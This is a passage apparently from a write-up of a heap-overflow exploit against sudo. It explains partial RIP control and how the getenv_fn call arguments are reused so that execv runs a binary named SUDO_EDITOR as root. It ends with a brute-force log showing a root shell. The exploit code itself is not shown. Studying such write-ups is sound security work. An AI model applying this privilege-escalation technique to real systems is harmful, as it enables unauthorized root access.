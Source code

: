 As you can see, we successfully got control over RIP partially (2 arbitrary bytes + a NULL): `0x7f1f0b008a04`

Those arguments for `hook.u->getenv_fn()` can be reused as they are fully compatible with the `execv()` ones.

First argument:

`$rdi   : 0x00007f1f0bbe564d  →  "SUDO_EDITOR"`

rdi points to a string, which in `execv()` coincides with the binary path to be executed

Second argument:

`$rsi   : 0x00007ffcb5b1de60  →  0x0000000000000000`

rsi points to a place where a NULL pointer is stored, thus being valid for our call.

Fortunately, we accomplish the needed conditions to execute a binary called `SUDO_EDITOR` in the same path we are executing the exploit.

Then `SUDO_EDITOR` will be the callback that `execv()` will execute as root.

Result:

```
[i] Try 2833
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40278 Segmentation fault      ./exploit
[i] Try 2834
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40279 Segmentation fault      ./exploit
[i] Try 2835
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40280 Segmentation fault      ./exploit
[i] Try 2836
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40281 Segmentation fault      ./exploit
[i] Try 2837
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40282 Segmentation fault      ./exploit
[i] Try 2838
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40283 Segmentation fault      ./exploit
[i] Try 2839
[.] crafting payload...
[.] triggering heap overflow...
./exp.sh: line 3: 40284 Segmentation fault      ./exploit
[i] Try 2840
[.] crafting payload...
[.] triggering heap overflow...
[+] callback executed!
[+] we are root!
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
